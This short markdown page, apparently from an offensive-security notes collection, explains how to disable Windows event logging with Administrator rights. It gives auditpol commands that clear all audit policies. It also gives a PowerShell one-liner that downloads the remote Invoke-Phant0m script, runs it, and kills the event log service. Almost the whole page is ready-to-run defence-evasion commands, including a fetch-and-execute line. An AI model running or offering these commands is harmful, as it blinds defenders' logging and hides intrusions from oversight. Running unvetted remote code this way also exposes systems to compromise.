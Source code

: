 # Disable Windows Event Logging

## Permissions: Administrator

### 1) Auditpol

##### Delete the per-user audit policy for all users, reset the system audit policy settings for all subcategories, and set all the audit policy settings to disabled,

    auditpol.exe /clear /y
    auditpol.exe  /remove /allusers

### 2) Invoke-Phant0m

##### Completely disables the event log service. Requires a system restart to return normal operation.

    iex (iwr -usebasicparsing https://raw.githubusercontent.com/olafhartong/Invoke-Phant0m/master/Invoke-Phant0m.ps1);Invoke-Phant0m
